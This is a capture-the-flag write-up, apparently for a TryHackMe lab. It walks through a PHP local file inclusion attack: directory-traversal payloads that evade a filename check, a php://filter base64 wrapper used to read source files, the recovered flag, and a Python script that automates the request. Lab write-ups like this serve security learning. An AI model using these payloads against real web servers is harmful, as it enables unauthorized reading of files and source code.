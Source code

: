 We can use this path `/var/lib/mlocate` which contains `cat` to fool the check.
NOTE that `.php` is appended to the file so we can't include `/etc/passwd`

This works however :
```
/?view=../../../var/lib/mlocate/../../../var/www/html/dog
```

There is a `flag.php` file, let's try that
```
/?view=../../../var/lib/mlocate/../../../var/www/html/flag
```

We don't get any output tho (Same when browsing `/flag.php`)
But we don't see any flags.

Tried to include a remote address (Our own http server) but we get this error
```
Warning: include(): http:// wrapper is disabled in the server configuration by allow_url_include=0 in /var/www/html/index.php on line 24
```

Which mean we can't do `http` inclusion.

Looking at `PayloadAllThings`.
Tried using null byte at the end `%00`. The error show that it's trying to include the correct path but it fail to include.

We can exfiltrate data by including `php://filter/convert.base64-encode/resource=dog`
This work since it will happend .php to the file path.

Trying with `resource=flag` we get the `Sorry only dogs and cats allowed` so let's do a directory traversal again
```
php://filter/convert.base64-encode/resource=../../../var/lib/mlocate/../../../var/www/html/flag
```

We get this base64 string:
```
PD9waHAKJGZsYWdfMSA9ICJUSE17VGgxc18xc19OMHRfNF9DYXRkb2dfYWI2N2VkZmF9Igo/Pgo=
```

Which is decoded to :
```
<?php
$flag_1 = "THM{Th1s_1s_N0t_4_Catdog_ab67edfa}"
?>
```

Soo here we got the first flag
```
THM{Th1s_1s_N0t_4_Catdog_ab67edfa}
```

We can get this using this python code
```py
import requests
import base64

url = "http://10.10.214.81/?view="

base64_php_encode="php://filter/convert.base64-encode/resource="
path = "../../../var/lib/mlocate/../../../var/www/html/flag"

payload = base64_php_encode + path

r = requests.get(url+payload)

encoded_content = r.text.split('Here you go!')[1].split('</')[0].strip().encode('ascii')

decoded = base64.b64decode(encoded_content).decode('utf-8')

```